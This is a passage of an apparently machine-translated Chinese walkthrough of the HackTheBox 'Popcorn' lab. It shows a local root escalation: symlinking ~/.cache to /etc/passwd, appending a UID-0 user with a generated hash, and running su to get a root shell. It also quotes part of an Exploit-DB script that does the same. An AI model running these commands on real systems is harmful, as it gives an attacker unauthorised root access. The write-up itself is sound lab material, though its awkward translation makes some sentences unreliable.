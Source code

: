 
#### 获取写入密码

我将清理目录并将其替换为指向以下链接的链接：`~/.cache``/etc/sudoers`

    www-data@popcorn:~$ rm -rf .cache/
    www-data@popcorn:/var/www$ ln -s /etc/passwd .cache
    www-data@popcorn:/var/www$ ls -la .cache 
    lrwxrwxrwx 1 www-data www-data 11 Jun 21 22:04 .cache -> /etc/passwd
    

现在我将使用SSH再次登录，然后由以下人员拥有：`/etc/passwd``www-data`

    www-data@popcorn:/var/www$ ls -l /etc/passwd
    -rw-r--r-- 1 www-data www-data 1031 Mar 17  2017 /etc/passwd
    

#### 添加根用户

使用写入权限，我只需添加一个 root 用户。首先，我需要一个密码哈希：

    www-data@popcorn:/var/www$ openssl passwd -1 0xdf
    $1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1
    

现在，我将用户添加到 ：`/etc/passwd`

    www-data@popcorn:/var/www$ echo 'oxdf:$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1:0:0:pwned:/root:/bin/bash' >> /etc/passwd  
    

用户是 oxdf，密码是 的哈希值，用户和组 ID 为 0 表示 root，描述是 pwned，主目录是 ，shell 是 。`0xdf``/root``/bin/bash`

#### 壳

现在我可以只用牛气来获取根壳：`su`

    www-data@popcorn:/var/www$ su - oxdf
    Password: 
    root@popcorn:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

并抓取 ：`root.txt`

    root@popcorn:~# cat root.txt
    f1223310************************
    

### 脚本

#### 分析

[Exploid-DB 脚本](https://www.exploit-db.com/exploits/14339)定义了一堆函数，执行一些基本检查，然后运行以下命令：

    KEY="$(mktemp -u)"
    key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
    backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
    own /etc/passwd && echo "$P" >> /etc/passwd
    own /etc/shadow && echo "$S" >> /etc/shadow
    restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
    key_remove
    echo "[+] Success! Use password toor to get root"
    su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
      chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
    